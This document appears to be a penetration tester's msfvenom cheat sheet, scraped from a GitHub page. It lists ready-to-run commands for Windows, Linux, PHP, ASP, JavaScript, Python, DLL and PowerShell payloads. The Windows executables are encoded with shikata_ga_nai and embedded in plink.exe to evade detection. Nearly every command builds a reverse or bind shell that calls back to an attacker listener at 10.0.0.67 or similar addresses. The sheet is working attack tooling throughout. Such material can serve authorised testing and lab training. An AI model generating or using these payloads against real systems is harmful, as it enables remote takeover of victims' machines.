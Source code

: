 # WINDOWS ENCODED PAYLOADS  PORT 443
**====CHANGE. IP. AS. NEEDED.====**

## WINDOWS/SHELL/REVERSE_TCP [PORT 443]
msfvenom -p windows/shell/reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe

## WINDOWS/SHELL_REVERSE_TCP (NETCAT x86) [PORT 443]
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe

## WINDOWS/SHELL_REVERSE_TCP (NETCAT x64) [PORT 443]
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x64 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe

## WINDOWS/METERPRETER/REVRESE_TCP (x86) [PORT 443] AT 10.0.0.67:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe

## WINDOWS/METERPRETER/REVRESE_TCP (x64) [PORT 443] AT 10.0.0.67:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x64 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_64.exe


## ---===BIND SHELL, ENCODED, ON PORT 1234===---
msfvenom -p windows/shell_bind_tcp LHOST=10.0.0.67 LPORT=1234 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o bindshell_1234_encoded_86.exe

## Code for encoding:
--platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o payload_86.exe

================================================================================
##[+ LINUX ]
#### LINUX/x86/METERPRETER/REVERSE_TCP
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=9997 -f elf >reverse.elf

## NETCAT
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.67 LPORT=1234 -f elf >reverse.elf
================================================================================

## [+ PHP ]
#### PHP/METERPRETER_REVERSE_TCP [PORT 443]
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.0.0.67 LPORT=443 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

## PHP/METERPRETER/REVERSE_TCP [PORT 443]
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

## PHP/REVERSE_PHP [PORT 443]
msfvenom -p php/reverse_php LHOST=10.0.0.67 LPORT=443 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
================================================================================

## [+ ASP]
#### ASP-REVERSE-PAYLOAD [PORT 443]
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 -f asp > shell.asp

## OR FOR NETCAT [PORT 443]
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.67 LPORT=443 -f asp > shell.asp

================================================================================
## [ + Client-Side, Unicode Payload - For use with Internet Explorer and IE]
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.30.5 LPORT=443 -f js_le -e generic/none

- Note: To keep things the same size, if needed add NOPs at the end of the payload.
### A Unicode NOP is - %u9090

================================================================================
===SHELLCODE GENERATION:
================================================================================
--===--
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.67 LPORT=80 EXITFUNC=thread -f python -a x86 --platform windows -b '\x00' -e x86/shikata_ga_nai
--===--
================================================================================
## DLL HiJacking - Windows - x64
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.190 LPORT=4444 -f dll -o Printconfig.dll
================================================================================


msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.47.29 LPORT=4444 -f powershell







